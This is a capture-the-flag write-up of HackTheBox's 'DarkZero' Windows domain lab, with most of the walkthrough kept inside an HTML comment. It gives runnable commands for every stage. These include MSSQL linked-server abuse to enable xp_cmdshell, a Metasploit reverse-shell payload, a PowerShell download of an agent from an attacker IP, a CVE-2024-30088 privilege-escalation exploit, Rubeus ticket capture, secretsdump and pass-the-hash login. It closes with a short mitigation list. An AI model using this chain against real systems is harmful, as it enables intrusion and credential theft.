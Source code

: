 # DarkZero

```
Difficulty: Hard
Operating System: Windows
Hints: True
```



## TL;DR

Using the credentials **john.w:RFulUtONCOL!**, I performed service enumeration and discovered **DC01** is multihomed (10.10.11.89 and 172.16.20.1). I abused MSSQL linked servers to enable `xp_cmdshell` on the linked host, used Metasploit's `web_delivery` to gain a meterpreter shell on the internal interface, escalated to SYSTEM via a local exploit (CVE-2024-30088), ran **Rubeus** to capture Kerberos ticket material by triggering an SMB call via `xp_dirtree`, converted the captured ticket into a usable cache, and used `impacket-secretsdump` and `evil-winrm` to gain Administrator access and retrieve the root flag.



| Step |             User / Access            | Technique Used                                  | Result                                                                                                                        |
| :--: | :-: | :- | :- |
|   1  |                 `N/A`                | **Port & AD Service Enumeration**               | nmap revealed AD services + MSSQL on 10.10.11.89; DNS returned 10.10.11.89 and 172.16.20.1 (multihomed / split-horizon).      |
|   2  |               `john.w`               | **SMB / LDAP Auth & Host Mapping**              | Valid creds used to enumerate SMB; generated hosts file and confirmed limited shares.                                         |
|   3  |               `john.w`               | **MSSQL Auth & Linked Server Discovery**        | Connected to MSSQL; enumerated linked servers and discovered `DC02.darkzero.ext` mapped to higher-privileged login.           |
|   4  | `john.w` → `dc01_sql_svc` (via link) | **Enable `xp_cmdshell` on Linked Server**       | Switched context to linked server and enabled `xp_cmdshell`.                                                                  |
|   5  |        `darkzero-ext\svc_sql`        | **Remote Command Execution (web_delivery)**     | Executed Metasploit web_delivery base64 payload via `xp_cmdshell` → meterpreter shell on internal 172.16.20.2.                |
|   6  |        `darkzero-ext\svc_sql`        | **Pivot / Internal Recon**                      | Confirmed internal interface and enumerated local services for LPE.                                                           |
|   7  |         `svc_sql` → `SYSTEM`         | **Local Privilege Escalation (CVE-2024-30088)** | Used local exploit to obtain `NT AUTHORITY\SYSTEM`.                                                                           |
|   8  |           `SYSTEM` on DC02           | **Rubeus Monitor**                              | Uploaded / ran Rubeus to capture Kerberos TGT/TGS (base64 `.kirbi`) when server triggered SMB access.                         |
|   9  |              `Attacker`              | **Trigger Kerberos/NTLM via xp_dirtree**        | From MSSQL executed `xp_dirtree \\DC02\...` which caused DC01 to request ticket / fall back to NTLM — Rubeus captured output. |
|  10  |              `Attacker`              | **Ticket conversion & use**                     | Converted captured `.kirbi` → ccache; set `KRB5CCNAME` and validated with `klist`.                                            |
|  11  |            `Administrator`           | **Secrets extraction & final access**           | Used `impacket-secretsdump -k` and `evil-winrm` (or psexec with recovered hash) to get Administrator and read root flag.      |


![DarkZero](Pictures/htb_DarkZero_Mind_Map.png)


**⚠️ Notice:
This challenge is currently active on HackTheBox.
In accordance with HackTheBox's content policy, this writeup will be made publicly available only after the challenge is retired.**

<!--

## Recon & host discovery

I started with a full TCP nmap scan of the domain controller:

```bash
nmap -p 1-65535 -T4 -A -v 10.10.11.89
```

**Nmap highlights:**

* 53/tcp open domain (Simple DNS Plus)
* 88/tcp open kerberos-sec (Microsoft Windows Kerberos)
* 135/tcp open msrpc
* 139/tcp open netbios-ssn
* 389/tcp open ldap (Active Directory)
* 445/tcp open microsoft-ds
* 636/tcp open ssl/ldap
* 1433/tcp open ms-sql-s (Microsoft SQL Server 16.00.1000.00)
* 3268/tcp, 3269/tcp open (LDAP / LDAPS global catalog)
* multiple high msrpc ports open

> The host is multihomed: DNS for `darkzero.htb` returned both `10.10.11.89` and `172.16.20.1` (split-horizon / internal network). Services bound to the `172.16.x` interface are internal-only and relevant for pivoting.

![DarkZero](Pictures/htb_darkzero_hosts.jpg)

Generate hosts file and enumerate SMB:

```bash
nxc smb 10.10.11.89 -u 'john.w' -p 'RFulUtONCOL!' --generate-hosts-file /etc/hosts
smbmap -H 10.10.11.89 -d 'darkzero.htb' -u 'john.w' -p 'RFulUtONCOL!'
```

![DarkZero](Pictures/htb_darkzero_enum_shares.jpg)

(SMB/BloodHound enumeration produced only default shares.)

Query DNS (discover split-horizon / multihomed host):

```bash
dig @DC01.darkzero.htb ANY darkzero.htb
```

![DarkZero](Pictures/htb_darkzero_dig.jpg)

The authoritative DNS response returned two A records for `darkzero.htb`: `10.10.11.89` and `172.16.20.1`. This indicates a split-horizon DNS or multihomed host. In this box, `10.10.11.89` answered while `172.16.20.1` appears internal-only. This distinction matters for pivoting and service reachability.



## Prepare Meterpreter payload (Metasploit `web_delivery`)

Create and run a web_delivery meterpreter job from msfconsole:

```bash
msfconsole -q -x "use exploit/multi/script/web_delivery ; set payload windows/x64/meterpreter/reverse_tcp ; set LHOST tun0 ; set LPORT 443 ; set target 2 ; exploit -j"
```

This generates a Base64 web-delivery payload to execute via `xp_cmdshell` on the SQL host later.



## Connect to MSSQL and inspect linked servers

Connect to MSSQL using Impacket’s mssql client (Windows auth):

```bash
mssqlclient.py 'darkzero.htb/john.w:RFulUtONCOL!@10.10.11.89' -windows-auth
```

![DarkZero](Pictures/htb_darkzero_mssqlguest.jpg)

Attempt to enable `xp_cmdshell` on DC01 (failed initially):

```sql
enable_xp_cmdshell -- failed
```

Enumerate linked servers:

```sql
enum_links
-- shows DC02.darkzero.ext as a linked server
```

![DarkZero](Pictures/htb_darkzero_enuml.jpg)

The linked server configuration shows `DC02.darkzero.ext` as a linked server. The link uses the local account `darkzero\john.w`, which maps to the remote login `dc01_sql_svc` on DC02. This allowed us to run commands on DC02 in a higher-privilege context.

Switch to the linked server and enable `xp_cmdshell` in that context:

```sql
use_link "DC02.darkzero.ext"
enable_xp_cmdshell
-- (Success when run via linked context)
```

![DarkZero](Pictures/htb_darkzero_sql_svc.jpg)

Now run the web-delivery payload via `xp_cmdshell`:

![DarkZero](Pictures/htb_darkzero_msfserver_exc.jpg)

```sql
xp_cmdshell "powershell.exe -nop -w hidden -e XXXXXXXXXXXXXXXXXXXX"
```

![DarkZero](Pictures/htb_darkzero_powershell.jpg)

This provided a meterpreter shell as `darkzero-ext\svc_sql`. Inside the meterpreter session, `ifconfig` revealed an internal IP `172.16.20.2` (internal interface), confirming pivoting into the internal network.



## Local privilege escalation — enumerate & exploit (Metasploit)

Run the local exploit suggester from within Metasploit:

```text
use multi/recon/local_exploit_suggester
set session 1
run
```

![DarkZero](Pictures/htb_darkzero_session.jpg)
![DarkZero](Pictures/htb_darkzero_sessions_for_xp.jpg)
![DarkZero](Pictures/htb_darkzero_ifconfig.jpg)


From the suggested list we used the CVE-2024-30088 local exploit.

```text
use exploit/windows/local/cve_2024_30088_authz_basep
set payload windows/x64/meterpreter_reverse_tcp
set session 1
set lhost tun0
set AutoCheck false
run
```

![DarkZero](Pictures/htb_darkzero_msf_exploit.jpg)


After running the exploit and checking `getuid`, we obtained `NT AUTHORITY\SYSTEM` — full administrative access on the host.

**Alternative (non-Metasploit):** Upload a small agent via `xp_cmdshell` and use `lligolo`/route + `impacket psexec.py` with an NTLM hash to pivot and execute commands on DC02.

Example upload and psexec usage:

```sql
xp_cmdshell "powershell wget -UseBasicParsing http://10.10.xx.xx/agent.exe -OutFile %temp%/agent.exe"
```

Then on attacker:

```bash
psexec.py Administrator@172.16.20.2 -hashes :XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

And read user flag:

```text
DC02 : 172.16.20.2
type C:\Users\Administrator\Desktop\user.txt
```

![DarkZero](Pictures/htb_darkzero_User_Flag.jpg)

## Rubeus: capture Kerberos ticket material

Other privilege escalation checks (e.g. WinPEAS) returned nothing useful, so we used **Rubeus** to monitor Kerberos activity on the target. Rubeus can detect newly issued or used TGT/TGS tickets and output them in base64 `.kirbi` format.

From SYSTEM / meterpreter on DC02:

```text
cd %temp%
# upload Rubeus.exe via Meterpreter
upload Rubeus.exe
```

Switch to an interactive shell and run Rubeus monitor:

```cmd
shell
C:\Windows\Temp\Rubeus.exe monitor /interval:1 /nowrap
```

Trigger the ticket retrieval from the SQL server by causing it to access an SMB resource on DC02 using `xp_dirtree` from the MSSQL client on DC01:

```bash
impacket-mssqlclient 'darkzero.htb/john.w:RFulUtONCOL!'@DC01.darkzero.htb -windows-auth
-- then on the DB connection:
xp_dirtree \\\\DC02.darkzero.ext\\XXXXXXXXXX
```

Rubeus on DC02 captured the base64 ticket output. Save that output to `ticket.bs4.kirbi`.



## Convert captured ticket to usable Kerberos cache

On your attacker host, decode the base64 ticket and convert it to a ccache:

```bash
cat ticket.bs4.kirbi | base64 -d > ticket.kirbi
python3 ticketConverter.py ticket.kirbi dc01_admin.ccache
export KRB5CCNAME=dc01_admin.ccache
klist
```

Verify the TGT/TGS is present with `klist`.



## Use Kerberos ticket with impacket/secretsdump and evil-winrm

With the converted ticket, run `impacket-secretsdump` to extract secrets or hashes:

```bash
impacket-secretsdump -k -no-pass 'darkzero.htb/DC01$@DC01.darkzero.htb'
```

If NTLM hashes are recovered, authenticate as `Administrator` via `evil-winrm`:

```bash
evil-winrm -i 10.10.11.89 -u administrator -H XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

![DarkZero](Pictures/htb_darkzero_Admin.jpg)

Finally read the root flag:

```text
type C:\Users\Administrator\Desktop\root.txt
```

![DarkZero](Pictures/htb_darkzero_Root_Flag.jpg)


## About the captured hash & why `xp_dirtree` triggered it

When `xp_dirtree` is executed, the SQL Server process on DC01 attempts to access the SMB share on DC02. The process requests a Kerberos service ticket (TGS) for the target service (e.g., `cifs/DC02`). If Kerberos authentication fails (due to SPN issues, DNS, time sync, policy, etc.), it falls back to NTLM, causing DC01 to send an NTLM challenge/response hash to DC02. Rubeus observes the ticket issuance or fallback and outputs the base64 ticket (or the NTLM-related material) which is then used for further offline or relay attacks. Which account is used (DC01$ or a domain service account) depends on the SQL Server service account configuration.



## Notes & mitigation

* Disable or restrict `xp_cmdshell` and remove unnecessary linked server trust relationships.
* Ensure SQL Server service accounts run with least privilege.
* Harden Kerberos: ensure SPNs are correct, time sync is maintained, and monitoring for unusual ticket requests is in place.
* Monitor for unexpected SMB accesses and unusual Kerberos ticket issuance.




-->